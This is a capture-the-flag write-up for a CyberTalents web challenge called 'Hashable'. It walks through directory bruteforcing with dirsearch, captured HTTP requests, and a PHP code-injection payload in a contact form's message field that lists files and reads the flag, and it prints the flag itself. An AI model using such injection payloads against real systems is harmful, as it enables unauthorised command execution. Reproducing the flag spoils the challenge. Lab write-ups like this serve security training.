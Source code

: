 # Solve Hashable
### https://cybertalents.com/challenges/web/hashable

![alt text](images/image.png)

### Run Directory bruteforce

```bash
dirsearch -u http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```

Output 
```bash
Target: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/

[00:11:53] Starting: 
[00:11:58] 301 -  185B  - /js  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/js/
[00:12:13] 200 -    4KB - /about.php                                        
[00:12:40] 200 -    5KB - /contact.php                                      
[00:12:41] 301 -  185B  - /css  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/css/
[00:12:49] 200 -    1KB - /footer.php                                       
[00:12:51] 200 -    3KB - /gulpfile.js                                      
[00:12:52] 200 -    2KB - /header.php                                       
[00:12:53] 301 -  185B  - /img  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/img/
[00:13:08] 200 -    1KB - /package.json                                     
[00:13:08] 200 -  256KB - /package-lock.json  
```

### Analyze blog request with burp 
```http
GET /post.php?id=1 HTTP/1.1
Host: wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/
Upgrade-Insecure-Requests: 1

```
We found that PHP parameter is not vulnerable 

### Analyze contact us request with burp 
```http
POST /contact.php HTTP/1.1
Host: wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/contact.php
Upgrade-Insecure-Requests: 1

name=test&email=test&message=test
```

Try command injection in message prameter
`name=test&email=test&message=${system('pwd')}`

![alt text](images/image-1.png)

##### Try ls 
`name=test&email=test&message=${system('ls')}`

files 
```
about.php
contact.php
css
flag_23894ABCX1.txt
footer.php
gulpfile.js
header.php
img
index.php
js
package-lock.json
package.json
post.php
scss
vendor
```

##### Try ls 
`name=test&email=test&message=${system('cat flag_23894ABCX1.txt')}`

flag is `18ab51f960bd149bcb2497b9998c752c`

>Find More on ==> github.com/MedhatHassan 